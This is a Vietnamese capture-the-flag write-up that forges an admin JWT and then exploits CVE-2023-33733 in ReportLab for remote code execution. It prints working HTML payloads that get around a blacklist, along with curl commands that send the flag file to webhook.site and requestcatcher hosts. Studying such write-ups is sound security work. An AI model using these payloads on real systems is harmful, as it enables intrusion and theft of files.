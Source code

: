 # WEB - The Hell's Lab - 1000 point
## Description:

At a Hell's Lab, the Admin is secretly building a tool without letting the employees know. As a spy for an organization X, investigate what that tool is?, can you hack into it?

Mission:  **LINK**

## Skills Required

 - Có kĩ năng đọc hiểu và debug Python
 - Có khả năng research lỗ hổng

## Application Overview

![!\[\[1.png\]\]](images/1.png)

## Analysis

Từ mã nguồn cho sẵn có thể thấy được một số thông tin sau:
![!\[\[2.png\]\]](images/2.png)

* `JWT_KEY` : chưa thể xác định.
* `is_admin(...)` : hàm này có thể yêu cầu xác thực admin để được dùng một số tính năng.

### 1. Find and Edit `JWT_KEY`

Ở trang web ta tìm được 2 thông tin từ file `script.js` vÀ `style.css`

Từ `style.css`:

![!\[\[3.png\]\]](images/3.png)

![!\[\[4.png\]\]](images/4.png)

![!\[\[5.png\]\]](images/5.png)

File `script.js` ta cần đăng kí và đăng nhập vào để tìm:

![!\[\[6.png\]\]](images/6.png)

![!\[\[7.png\]\]](images/7.png)

`=>` Có được password để mở pastebin

![!\[\[8.png\]\]](images/8.png)

`=>` Có được tất cả thông tin, giờ ta sẽ xác định Admin key

![!\[\[9.png\]\]](images/9.png)

`=>` Giờ ta đã có được Admin key, cũng như là `JWT_KEY`

Tiếp theo thay đổi `Payload` để trở thành Admin

![!\[\[10.png\]\]](images/10.png)

Sau đó là ta đã có thể vào đường dẫn `/convert`

![!\[\[11.png\]\]](images/11.png)

### 2. Exploit CVE-2023-33733

Giờ ta sẽ thử một số tính năng của app bằng cách upload một file được cho phép

![!\[\[15.png\]\]](images/15.png)

`=>` Có thể thấy được app này hỗ trợ convert file sang PDF - đây sẽ là vấn đề mà ta cần xem xét, mở mã nguồn kiểm tra xem thư viện nào đã được cài đặt.

Dựa vào thông tin thư viện được cài đặt ở file `requirements.txt` có thấy một thư viện
```
...
reportlab==3.6.12
...
```
Sau khi search thì ta tìm đươc một CVE liên quan

![!\[\[12.png\]\]](images/12.png)

Sau đó tử tạo một file `.html` từ PoC này để thử

![!\[\[13.png\]\]](images/13.png)

File `.html`
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Sau khi upload lên thì xuất hiện lỗi

![!\[\[14.png\]\]](images/14.png)

`=>` Có lẽ thư viện xử lí đã được edit lại

Trong lúc build có một dòng lệnh
```Dockerfile
...
COPY libs/reportlab /usr/local/lib/python3.10/site-packages/reportlab
...
```
Thư viện gốc đã bị thay thế bởi thư viện được mod lại.

So sánh mã nguồn của 2 file `rl_safe_eval.py` của thư viện reportlab v3.6.12 và thư viện đã được mod

![!\[\[16.png\]\]](images/16.png)

`=>` Có thể thấy được bên trái là mã nguồn của thư viện và bên phải là mã nguồn của tác giả đã mod lại. Các từ như:
```
pow, ctype, iter, list, locals, map, max, min, next, pow, range, reversed, set, sorted, sum, system,...
```
Các từ này đã được đưa vào blacklist.

Vậy nên thay vì dùng: `pow` thì ta sẽ kiểm tra xem builtins nào không nằm trong black list thì chọn.

![!\[\[17.png\]\]](images/17.png)

`=>` Ở đây ta thấy `zip` không nằm trong blacklist thì ta sẽ dùng `zip`

Hơn nữa `system()` cũng bị đưa vào blacklist nên ta sẽ dùng một function khác là `popen('<command>').read()` để thay cho `system`

Lúc này payload mới sẽ là:
```html
<para>
    <font color="[ [ getattr(zip,Word('__globals__'))['os'].popen('curl https://onion.requestcatcher.com/hello').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
      exploit
      </font>
  </para>
```

Gửi file này đi thì ta sẽ được kết quả:

![!\[\[18.png\]\]](images/18.png)

![!\[\[19.png\]\]](images/19.png)

Lúc này ta sẽ gửi file flag ra ngoài bằng lệnh:
```bash
curl -d @/`ls / |grep flag` https://webhook.site/44211d9a-cec0-489e-92c6-77327ff743da
```

Payload hoàn chỉnh:

```html
<para>
    <font color="[ [ getattr(zip,Word('__globals__'))['os'].popen('curl -d @/`ls / |grep flag` https://webhook.site/44211d9a-cec0-489e-92c6-77327ff743da').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
      exploit
      </font>
  </para>
```

Kết quả trả về:

![!\[\[20.png\]\]](images/20.png)

### Flag: `FUSec{3asy_2_find_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}`